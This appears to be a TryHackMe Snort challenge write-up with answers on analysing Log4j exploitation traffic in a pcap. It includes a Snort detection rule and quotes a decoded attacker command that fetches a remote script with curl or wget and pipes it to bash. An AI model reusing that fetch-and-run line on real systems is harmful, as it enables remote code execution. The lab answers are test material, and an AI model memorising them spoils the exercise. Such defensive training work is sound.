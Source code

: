 How many rules were triggered?.

- 4

Investigate the log/alarm files.

What are the first six digits of the triggered rule sids?

- 210037

Clear the previous log and alarm files.

- `sudo rm alert snort.log.<number>`

Use local-1.rules empty file to write a new rule to detect packet payloads between 770 and 855 bytes.

- `alert tcp any any <> any any (msg:"Abnormal packet size detected"; dsize:770<>855; sid:1000001; rev:1)`
- `sudo snort -c local-1.rules -dev -l . -r log4j.pcap`

What is the number of detected packets?

- 41

Investigate the log/alarm files.

- `sudo snort -r snort.log.<number> -d`

What is the name of the used encoding algorithm?

- Base64

Investigate the log/alarm files.
- 

What is the IP ID of the corresponding packet?

- 62808

Investigate the log/alarm files.

- KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=}

Decode the encoded command.

- save base64 to decode.txt
- `base64 -d decode.txt`

What is the attacker's command?

- (curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash

What is the CVSS v2 score of the Log4j vulnerability?

- [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- 9.3

### _**Conclusion**_
Congratulations! Are you brave enough to stop a live attack in the [Snort2 Challenge 2](https://tryhackme.com/room/snortchallenges2) room?
